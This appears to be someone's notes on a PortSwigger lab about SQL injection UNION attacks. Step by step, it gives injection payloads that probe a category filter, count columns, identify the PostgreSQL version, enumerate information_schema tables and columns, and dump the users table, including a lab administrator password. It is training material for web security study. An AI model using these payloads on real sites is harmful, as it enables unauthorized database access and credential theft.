 Lab: SQL injection UNION attack, retrieving data from other tables

https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables

```bash
GET /filter?category=Pets'
```
```bash
GET /filter?category=Pets'--
```
```bash
Pets'order by 2--
Pets'order by 3--
```
```bash
Pets' UNION SELECT 'a','a'--
```
```bash
Pets' UNION SELECT @@version,'a'--

#error

Pets' UNION SELECT version(),'a'--

# PostgreSQL 12.18 (Ubuntu 12.18-0ubuntu0.20.04.1)
```
```bash
Pets' UNION SELECT table_name,NULL FROM information_schema.tables-- 

#users
```
```bash
Pets' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name= 'users'--

# username
# password
```
```bash
Pets' UNION SELECT username,password FROM users --
# administrator
# srfcxzpvzhr18ljttwh6
```
